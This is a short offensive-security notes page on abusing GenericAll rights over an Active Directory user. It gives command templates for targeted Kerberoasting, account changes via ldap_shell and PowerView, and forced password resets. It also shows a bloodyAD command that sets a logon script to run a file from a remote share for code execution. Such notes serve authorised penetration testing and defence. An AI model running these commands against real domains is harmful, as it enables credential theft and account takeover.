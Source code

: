# Abusing GenericAll (User over User)

If an user have GenericAll over an user can get user NT hash, enable/disable user, change password, and change user properties, this properties include change logon script wich allos for RCE if user connects. It is recomende to first, get the nt hash (or if not possible kerberos hash), then check if user conects frequently, and if both ways are not allowed go for changing the password.


### Shadow credentials attack (get NThash):

Check Shadow credentials seccion -> https://github.com/ArtesOscuras/Notes/blob/main/abusing_DACLs/AddKeyCredentialLink%20(SHADOW%20CREDENTIALS).md

<br>

### Target kerberoast (get kerberoast hash):

You can make the user kerberoastable. User is required to be enabled. If it's not, enable it first. Additionally may require to sinc datetime with DC for kerberos interaction.

`targetedKerberoast.py -v -d '<domain>' -u '<controlled user>' -p '<controlled user password>'`

source: https://github.com/ShutdownRepo/targetedKerberoast

<br>

### Enable user, or change properties:
#### (externally, from attacking machine)

You can enable/disable user and change other properties. The easiest way to do it is using ldap_shell externally. 

`ldap_shell.py '<domain>/<user you control>:<password>' -dc-ip <ip>`

When inside use the interactive shell to change properties. Example "enable_account <user>".

Source: https://github.com/PShlyundin/ldap_shell

<br>

#### (internally, inside victim machine)

You can also modify those properties from inside windows machine using Set-DomainObject or Powerview.

Set-DomainObject: https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/

Powerview: https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1 

<br>

### Set logon script (get RCE if user login):
#### (externally, from attacking machine)

You can force the user to execute specific program or script, and if user logs into the system, that program will be executed.

`bloodyAD --host '<dc_ip>' -d '<domain>' -u '<controlled user>' -p '<password>' set object <target user> msTSInitialProgram -v '\\1.2.3.4\share\file.exe'`

Source: https://www.thehacker.recipes/ad/movement/dacl/logon-script

<br>

#### (internally, inside victim machine)

You can also do the same internally using Powerview or Set-DomainObject.

Source: https://legacy.thehacker.recipes/a-d/movement/dacl/logon-script

<br>

### Change user password (Force Change Password):

You can change user password remotly and then use it to connect via winrm, rdp etc...

Check Force Change Password seccion -> https://github.com/ArtesOscuras/Notes/blob/main/abusing_DACLs/ForceChangePassword.md

<br>



